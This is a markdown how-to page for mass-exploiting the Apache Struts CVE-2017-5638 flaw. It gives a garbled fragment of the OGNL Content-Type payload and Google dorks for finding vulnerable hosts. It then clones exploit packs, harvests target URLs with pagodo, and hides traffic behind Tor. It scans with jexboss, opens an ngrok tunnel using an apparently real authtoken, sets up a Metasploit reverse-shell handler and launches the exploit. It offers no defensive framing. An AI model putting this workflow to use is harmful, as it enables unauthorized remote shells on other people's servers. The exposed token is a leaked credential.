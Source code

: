 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Sample
date: 2019-2-19
---
```


# APACHE STRUTS VULNERABILITY CVE 2017-5638

$$
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
$$

## FIND POTENTIAL TARGETS

intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java

## DEPENDENCIES

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v3.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt"
Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION
Start Torphantom

###  Type the below commands

~~~bash
$ sudo torphantom start ­-i <interface>
~~~

Scan using Struts-Scanner

### Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~

Scan using Jexboss

### Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING

Start Ngrok

###  Your Token can be found in your Ngrok account

~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~

Create the Session

### Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER

Start Metasploit

### Open Metasploit
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
Jexboss Commands
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~

Complete Guide:[here](https://youtu.be/Bt9m__yel8M)
